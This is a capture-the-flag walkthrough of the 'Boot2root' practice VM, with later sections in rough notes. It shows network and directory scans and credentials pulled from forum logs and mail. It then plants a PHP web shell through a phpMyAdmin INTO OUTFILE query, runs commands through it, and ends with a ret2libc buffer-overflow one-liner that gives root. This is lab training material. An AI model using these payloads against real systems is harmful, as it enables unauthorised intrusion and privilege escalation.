





# Introduction
When we first boot up the VM we're greeted with a login screen. Obviously we have not been provided with any usernames / passwords so it's up to us to find a way in.

When looking at the startup logs of the VM, we can see that apache2 has been started, we therefore know that there is a web server running on this VM.

# Finding the IP
Let's find its IP ! "Since I'm using VirtualBox with a Host-Only network adapter that is configured automatically, all I have is a range of IPs:
```
Server Address: 192.168.94.2
Server Mask: 255.255.255.0
Lower Address Bound: 192.168.94.3
Upper Address Bound: 192.168.94.254
```
VirtualBox will usually allocate the next available IP (starting from the Lower Address Bound) to a VM, but since I'm lazy let's just scan the range with nmap:
```
➜  Boot2root git:(main) ✗ nmap 192.168.94.3-254
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-30 17:07 CET
Nmap scan report for 192.168.94.4
[...]

Nmap scan report for 192.168.94.6
Host is up (0.0013s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 252 IP addresses (2 hosts up) scanned in 5.19 seconds
```
Cool, we have the IP of our Boot2root VM (the `192.168.94.4` host was another one of my VM, we can ignore it).

# List of services
We also notice that there are multiple services running:
- ftp
- ssh
- http / https
- imap / imaps

*Since we don't have any credentials, let's ignore ftp, ssh and imap for now.*

Let's try to access `http://192.168.94.6` in our browser !


Nice, a basic website. After a bit of digging there is nothing suspicious within the HTML, network requests or cookies.

Let's try to find hidden directories with `dirb``:
```
➜  ~ dirb https://192.168.94.6 -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Oct 30 19:05:15 2023
URL_BASE: https://192.168.94.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.94.6/ ----
+ https://192.168.94.6/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.94.6/forum/
==> DIRECTORY: https://192.168.94.6/phpmyadmin/
+ https://192.168.94.6/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.94.6/webmail/

-----------------
END_TIME: Mon Oct 30 19:05:20 2023
DOWNLOADED: 4612 - FOUND: 2
```
*Since webmail and phpmyadmin require credentials we don't have, let's check out the forum ! We'll have to access it with `https` to avoid getting a `403`*

# Forum



Yet again there is a way to login, but we don't have any credentials. There are multiple forum posts, let's check them out.

In the `Probleme login ?` post, we can see that the `lmezard` user has posted his sshd logs. Here is the interesting part:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```
Seems like he put his password as the username by accident. Let's try to login on the forum with `lmezard` as the username and `!q\]Ej?*5K5cy*AJ` as the password.

*I tried the credentials with all the services we have access to, and it only worked for the forum.*

Since we are on his account, let's try to go to the User's Area:



There is an email address, let's try to login to the webmail with the same credentials. (but with `	laurie@borntosec.net` as the username)


# Webmail
It worked!



There are two emails from `qudevide@mail.borntosec.net`. The `Very interesting !!!!` isn't actually interesting, but the `DB Access` one is.

It contains the following credentials:
```
root/Fg-'kKXBj87E:aJ$
```
Since we're talking about a database, let's try to login to phpmyadmin with these credentials.

# PhpMyAdmin
We're in!



As we are logged in as root, we can see all the databases. Let's check out the `forum_db` and `mysql` in the hopes of finding some credentials.

There are indeed some credentials in both the databases, but they are hashed. So let's try something else.

It seems we can execute php code from a SQL query ([**source**](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/)), let's try to get launch shell commands.

First let's create a new database called exploit (*the name doesn't matter*).
Then let's run a SQL query on the database we just created:



Such as:
```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

How do we know the path of the `templates_c` directory ? Well if we run a scan with dirbuster we can see that there is a `templates_c` directory in the `forum` directory.
```
➜  ~ dirb https://192.168.94.6 | grep -E 'CODE:200|DIRECTORY'
==> DIRECTORY: https://192.168.94.6/forum/
[...]
==> DIRECTORY: https://192.168.94.6/forum/images/
==> DIRECTORY: https://192.168.94.6/forum/includes/
+ https://192.168.94.6/forum/index (CODE:200|SIZE:4935)
+ https://192.168.94.6/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.94.6/forum/js/
==> DIRECTORY: https://192.168.94.6/forum/lang/
==> DIRECTORY: https://192.168.94.6/forum/modules/
==> DIRECTORY: https://192.168.94.6/forum/templates_c/
==> DIRECTORY: https://192.168.94.6/forum/themes/
==> DIRECTORY: https://192.168.94.6/forum/update/
[...]
```
*I've tried every other option and only the `templates_c` directory worked.*

Now we can access the `backdoor.php` file with `https://192.168.94.6/forum/templates_c/backdoor.php` and execute commands with the `cmd` parameter:
```
https://192.168.94.6/forum/templates_c/backdoor.php?cmd=pwd
/var/www/forum/templates_c

https://192.168.94.6/forum/templates_c/backdoor.php?cmd=ls%20/
bin boot cdrom dev etc home initrd.img lib media mnt opt proc rofs root run sbin selinux srv sys tmp usr var vmlinuz

// Yet again after a lot of digging I found this in the home directory
https://192.168.94.6/forum/templates_c/backdoor.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.94.6/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATME
password

https://192.168.94.6/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

Finally we have new credentials! They don't work for ssh, but they do for ftp.

# Ftp
lmezard:G!@M6f4Eatau{sF"
- doesnt work for ssh
- works for ftp


get to two files fun / README
➜  ~ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
alright then

➜  ~ file fun
fun: POSIX tar archive (GNU)
oh lmao ok
bunch of pcap sick BUT we can guess where is what store from the binary right ? (plz)
tcpdump don't work so i guess they're not real pcap sick
dumbscript:
for f in *; do
  if grep -q "return" "$f"; then
    echo -e "\n### File: $f ###"
    cat "$f"
  fi
done

### File: 7DT5Q.pcap ###
        return 'a';

//file116

### File: APM1E.pcap ###
        return 'I';

//file6

### File: BJPCP.pcap ###
char getme8() {
        return 'w';
}
char getme9() {
        return 'n';
}
char getme10() {
        return 'a';
}
char getme11() {
        return 'g';
}
char getme12()
{
        return 'e';
}
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}

//file750

### File: ECOW1.pcap ###
        return 'e';

//file57

### File: J5LKW.pcap ###
        return 't';

//file522

### File: T44J5.pcap ###
        return 'p';

//file737

### File: T7VV0.pcap ###
        return 'r';

//file369

### File: ZPY1Q.pcap ###
        return 'h';

//file38%
(I removed all the useless stuff from the script)

sick they were only 12 getme so we can go in order of the file number
 Iheartpwnage to sha236:
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
# SSH with user laurie
ssh -v laurie@192.168.58.5

bomb and README
nvm im lazy use ghidra


Public speaking is very easy.
1 2 6 24 120 720
0 q 777
9
opekmq
4 2 6 3 1 5

Publicspeakingisveryeasy.126241207200q7779opekmq426315 => dont work cause lol project brokey

Publicspeakingisveryeasy.126241207200q7779opekmq426135 => still doesnt work i guess the only phase which can have a different answer is phase 3

use 1 b 214 instead of 0 q 777 (thank u readme)
Publicspeakingisveryeasy.126241207201b2149opekmq426135

# User thor
log into thor and turtle
it writes slash (I used paint)
haha digest encryption
sha-256 dont work
nor MD5 wth
oh it's caps SLASH
sha-256 still dont work
MD5 does
646da671ca01bb5d84dbb5fb2238dc8e

# User zaz
log into zaz and exploit me function
looking at the sub its 144 bytes, and we know that our buffer is 128. (lea start at 16, so 144 - 16 = 128)
and strcpy doesn't check shit. anyways we write 140 characters and the next 4 ones will be return address

ret2libc cause I couldnt do buffer overflow with shellcode
https://bufferoverflows.net/ret2libc-exploitation-example/

140 + system + exit + /bin/sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

how to find /bin/sh
https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb

(gdb) info proc map
process 4735
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2b000,0xc0000000,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
(gdb)

./exploit_me `python -c 'print("."*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`

# We are root
```
# whoami
root
```